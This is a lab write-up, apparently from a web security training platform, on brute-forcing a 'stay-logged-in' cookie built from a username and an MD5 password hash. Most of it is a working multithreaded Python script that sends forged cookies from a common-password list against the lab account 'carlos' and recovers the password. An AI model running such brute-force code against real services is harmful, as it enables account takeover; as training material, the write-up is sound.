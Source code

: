 #### Lab: Brute-forcing a stay-logged-in cookie

- So we know that in this lab will be work around `stay-logged-in` session cookie, after some investigation I find out it is base64 encoded username with password (under md5 hash)
- After successful login we are able to `Update email`, so let it be our marker ...
- My python solution of this lab:

```python
import base64
import hashlib
import requests

from concurrent.futures import ThreadPoolExecutor

NAME = "carlos"

passwords = [
    "123456", "password", "12345678", "qwerty", "123456789", "12345", "1234", "111111",
    "1234567", "dragon", "123123", "baseball", "abc123", "football", "monkey", "letmein",
    "shadow", "master", "666666", "qwertyuiop", "123321", "mustang", "1234567890", "michael",
    "654321", "superman", "1qaz2wsx", "7777777", "121212", "000000", "qazwsx", "123qwe",
    "killer", "trustno1", "jordan", "jennifer", "zxcvbnm", "asdfgh", "hunter", "buster",
    "soccer", "harley", "batman", "andrew", "tigger", "sunshine", "iloveyou", "2000",
    "charlie", "robert", "thomas", "hockey", "ranger", "daniel", "starwars", "klaster",
    "112233", "george", "computer", "michelle", "jessica", "pepper", "1111", "zxcvbn",
    "555555", "11111111", "131313", "freedom", "777777", "pass", "maggie", "159753",
    "aaaaaa", "ginger", "princess", "joshua", "cheese", "amanda", "summer", "love",
    "ashley", "nicole", "chelsea", "biteme", "matthew", "access", "yankees", "987654321",
    "dallas", "austin", "thunder", "taylor", "matrix", "mobilemail", "mom", "monitor",
    "monitoring", "montana", "moon", "moscow"
]

md5_hashes = [hashlib.md5(passwd.encode()).hexdigest() for passwd in passwords]
base64_encoded = [base64.b64encode(f"{NAME}:{passwd}".encode()).decode() for passwd in md5_hashes]


def send_request(session):
    url = f"https://0a3b00ce0424188e8119179f00120001.web-security-academy.net/my-account?id={NAME}"
    try:
        cookie = {
            "stay-logged-in": session,
            "session": "UQAskohyHhb9awZmWFoYPSBnirn8AzqR"
        }
        response = requests.get(url, cookies=cookie)

        if "Update email" in response.text:
            username, password = (base64.b64decode(session).decode()).split(':')
            print(f"[+] Got it with: {session}")
            username, md5_hash_password = (base64.b64decode(session).decode()).split(':')
            password = ''
            for pwd in passwords:
                hashed = hashlib.md5(pwd.encode()).hexdigest()
                if hashed == md5_hash_password:
                    password = pwd
                    print(f"[+] Password match found: {pwd}")
                    break
            print(f"{username=} : {password=}")

    except Exception as e:
        print(f"[!] Error with {session}: {e}")

with ThreadPoolExecutor(max_workers=20) as executor:
    executor.map(send_request, base64_encoded)
```
